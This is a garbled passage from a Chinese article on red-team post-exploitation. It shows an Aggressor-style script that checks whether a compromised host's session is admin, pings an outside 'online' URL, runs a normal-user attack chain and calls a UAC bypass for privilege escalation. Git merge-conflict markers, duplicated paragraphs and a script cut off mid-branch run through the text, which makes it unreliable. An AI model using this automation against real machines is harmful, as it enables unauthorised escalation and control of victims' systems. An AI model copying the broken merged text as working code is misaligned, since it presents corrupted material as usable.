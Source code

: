 [![](assets/1710898890-6da8ce2cd9d1a9aa09b1551a84db4d8f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240311173040-06d283bc-df8a-1.png)

通过 `isadmin` 结合存活权限判断中的三个变量的值即可通过取巧的方式实现上述执行场景流程的编排：

```plain
=======
[![](assets/1710206030-6da8ce2cd9d1a9aa09b1551a84db4d8f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240311173040-06d283bc-df8a-1.png)

通过 `isadmin` 结合存活权限判断中的三个变量的值即可通过取巧的方式实现上述执行场景流程的编排：

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
##### 场景流程编排

Note($1);
if (!-isadmin $1) {
    http_get($onlineUrl);
<<<<<<< HEAD
    blog($1, "\c9普通用户权限");
=======
    blog($1, "\c9 普通用户权限");
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

    # 场景1：直接上线普通用户权限
    if ($x < 2) {   
            NormalUser_Chain($1);
            BypassUAC($1);

    # 场景4：重复上线普通用户权限  
    } else {
        blog($1, "\cB当前主机存活数大于2 请检查是否已提升至管理员权限 [ AutoPostChain End ]");
    }
} else {
    http_get($onlineUrl);
<<<<<<< HEAD
    blog($1, "\c9管理员权限");
=======
```